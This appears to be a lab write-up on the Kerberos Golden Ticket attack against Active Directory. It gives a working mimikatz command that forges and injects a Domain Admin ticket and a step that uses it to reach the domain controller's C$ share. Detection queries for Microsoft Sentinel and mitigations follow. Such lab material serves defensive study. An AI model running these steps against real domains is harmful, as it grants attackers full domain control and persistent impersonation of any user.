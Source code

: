# Attack Scenario: Golden Ticket Attack
The Golden Ticket attack involves forging a Kerberos Ticket Granting Ticket (TGT) using the krbtgt account’s NTLM hash. This allows an attacker to impersonate any user, including Domain Admins, for any service in the domain — with or without a corresponding AD object.

This attack is typically used after a successful DCSync operation.

## MITRE ATT&CK Techniques:

T1558.001 – Forge Kerberos Tickets (Golden Ticket)

T1550.002 – Use of Valid Accounts: Pass-the-Ticket

## Lab Environment
- **Domain Controller:** dc01.internal.lab
- **Domain:** internal.lab
- **SID:** S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX
- **NTLM hash of krbtgt obtained via DCSync**
- **Attacker system:** attacker-vm

## Preconditions:

- Attacker has retrieved the krbtgt NTLM hash and domain SID
- Attacker has mimikatz or similar tooling available

## Objectives
Forge a valid Kerberos TGT with arbitrary user details

Inject the forged ticket into the current session

Access privileged network resources (e.g., C$ shares, AD services)

## Execution Steps
Forge Golden Ticket

Using mimikatz:

```kerberos::golden /user:Administrator /domain:internal.lab /sid:S-1-5-21-XXXXXXXXX /krbtgt:<NTLMHASH> /id:500 /groups:512 /ptt```

Parameters:

/user: - the fake username (can be real or fabricated)

/domain: - AD domain name

/sid: - domain SID

/krbtgt: - NTLM hash from DCSync

/id:500 - RID of the impersonated user (500 = Administrator)

/groups: - group RIDs (e.g., 512 = Domain Admins)

/ptt - injects the ticket into current session

Confirm Ticket Injection

```kerberos::list```

Ensure a TGT is present for the spoofed user.

## Access Resources

Try to access:

```dir \\dc01.internal.lab\C$```

Or use PsExec, WMI, or RDP to confirm administrative access.

## Detection Guidance
### Logs and Indicators
Unusual Kerberos ticket activity from non-privileged hosts

4624 logon events with high-privilege SIDs from suspicious systems

4768/4769/4770 events where TGTs or TGSs are issued from suspicious clients

### Detection Queries (KQL - Microsoft Sentinel)
Suspicious Logon with Domain Admin RID (500):

```
SecurityEvent
| where EventID == 4624
| where TargetUserSid endswith "-500"
| where Account != "Administrator"
```

Unusual number of group RIDs in ticket:

```
SecurityEvent
| where EventID == 4624
| where LogonProcessName == "Kerberos"
| where AccountType == "User"
| extend GroupCount = array_length(SupplementaryGroups)
| where GroupCount > 10
```

## Mitigations
Regularly rotate the krbtgt password (twice if possible)

Detect and block anomalous ticket lifetimes and SID values

Monitor use of administrative group RIDs from non-standard hosts

Use tiered admin model to isolate Domain Admin access to jump boxes

## References
https://adsecurity.org/?p=1640

https://www.harmj0y.net/blog/redteaming/kerberos-attacks/

https://attack.mitre.org/techniques/T1558/001/

https://github.com/gentilkiwi/mimikatz

## Navigation
[Back to Lab Index:](../../README.md)
[Related: NTLM Relay]()

